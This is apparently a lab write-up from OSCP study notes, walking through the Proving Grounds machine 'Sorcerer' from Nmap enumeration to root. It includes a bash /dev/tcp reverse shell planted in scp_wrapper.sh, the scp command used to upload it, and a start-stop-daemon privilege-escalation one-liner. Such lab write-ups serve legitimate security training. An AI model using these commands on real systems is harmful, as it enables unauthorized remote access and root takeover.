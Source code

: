 #### Enumeration

##### Nmap 

```
nmap -Pn -p- -sC -sV 192.168.206.100 -T4 -oN Sorcerer.nmap
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h04m29s_001_.png)

The website on 80 port only displays text messages, checking the code to confirm that it is only plain text.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h36m59s_009_.png)

No special directory was found during the scan.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h21m34s_002_.png)

The attempt to log in with common credentials failed.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h19m21s_003_.png)

Checking the code looks like the page is no actual login function.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h26m45s_006_.png)

If there is no actual login function, there may be hidden directories. The directory scan shows two directories zipfiles and default.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h31m18s_007_.png)

There are four compressed files in the zipfiles directory.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h51m19s_010_.png)

The default directory is the same as the website on port 80. It only displays text messages.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h55m00s_011_.png)

Find ssh folder in max.zip. When trying to login with private key, it is found that ssh login has been forbidden. Only scp can be used.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_23h58m36s_014_.png)

Try to use scp to upload and download website directories, but there is nothing special found, and PHP should not be able to use.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_00h01m13s_015_.png)

Reexamine scp_wrapper.sh in max.zip. After searching, we know that scp_wrapper.sh is used to set a program that does not allow ssh login. We can change scp_wrapper.sh to get the reverse shell.

scp_wrapper.sh: [setting reference](https://serverfault.com/questions/83856/allow-scp-but-not-actual-login-using-ssh) 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_23h56m06s_013_.png)

Modify the source code of scp_wrapper.sh.

```
#!/bin/bash
/bin/bash -l > /dev/tcp/<LHOST>/<LPORT> 0<&1 2>&1
```
Then use the scp command to upload wrapper.sh with reverse shell content.

```
scp -i ~/Downloads/id_rsa ~/Documents/OffSecPG/Sorcerer/scp_wrapper.sh max@<RHOST>:/home/max
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_00h42m14s_016_.png)

Monitor port 80 to execute ssh login.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_00h46m13s_017_.png)

Get the reverse shell connection and local.txt successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_00h48m49s_019_.png)

#### Privilege Escalation

The linpeas.sh find that /usr/sbin/start-stop-daemon is run by root.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_01h16m54s_020_.png)

Find instructions in [GTFOBins](https://gtfobins.github.io/) to elevate permissions.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_15h59m02s_001_.png)

```
/usr/sbin/start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_01h26m46s_022_.png)
